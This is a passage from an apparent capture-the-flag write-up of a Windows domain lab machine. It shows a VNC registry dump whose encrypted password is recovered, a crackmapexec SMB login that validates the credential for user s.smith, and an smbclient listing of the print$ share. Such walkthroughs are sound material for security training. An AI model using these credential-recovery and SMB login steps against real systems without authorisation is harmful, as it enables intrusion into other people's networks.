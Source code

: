     "AlwaysShared"=dword:00000000
    "NeverShared"=dword:00000000
    "DisconnectClients"=dword:00000001
    "PollingInterval"=dword:000003e8
    "AllowLoopback"=dword:00000000
    "VideoRecognitionInterval"=dword:00000bb8
    "GrabTransparentWindows"=dword:00000001
    "SaveLogToAllUsersPath"=dword:00000000
    "RunControlInterface"=dword:00000001
    "IdleTimeout"=dword:00000000
    "VideoClasses"=""
    "VideoRects"=""
    ```
    
    With have a password, however, if we try to decoded it directly we will notice that it is actually encrypted. A quick search on the internet will lead us to know how to retrieve the plain text password.
    
    We endup with a new credential possibly for user s.smith.
    
    ```bash
    ┌──(kali㉿kali)-[~/machines/windows/cascade]
    └─$ crackmapexec smb 10.10.10.182 -u 's.smith' -p 'sT333ve2'
    SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
    SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2
    ```
    
    Credentials → `s.smith:sT333ve2`
    

### Print share

Empty

```bash
┌──(kali㉿kali)-[~/machines/windows/cascade]
└─$ smbclient \\\\10.10.10.182\\print$ -U "cascade.local/r.thompson"
Password for [CASCADE.LOCAL\r.thompson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 14 07:37:10 2009
  ..                                  D        0  Tue Jul 14 07:37:10 2009
  color                               D        0  Tue Jul 14 07:37:10 2009
  IA64                                D        0  Tue Jul 14 06:58:30 2009
  W32X86                              D        0  Tue Jul 14 06:58:30 2009
  x64                                 D        0  Mon Jan 13 04:09:11 2020

                6553343 blocks of size 4096. 1625412 blocks available
smb: \> dir color
  color                               D        0  Tue Jul 14 07:37:10 2009

                6553343 blocks of size 4096. 1625412 blocks available
smb: \> dir IA64
  IA64                                D        0  Tue Jul 14 06:58:30 2009

                6553343 blocks of size 4096. 1625412 blocks available
smb: \> dir W32X86
  W32X86                              D        0  Tue Jul 14 06:58:30 2009

                6553343 blocks of size 4096. 1625396 blocks available
smb: \> dir x64
  x64                                 D        0  Mon Jan 13 04:09:11 2020
```
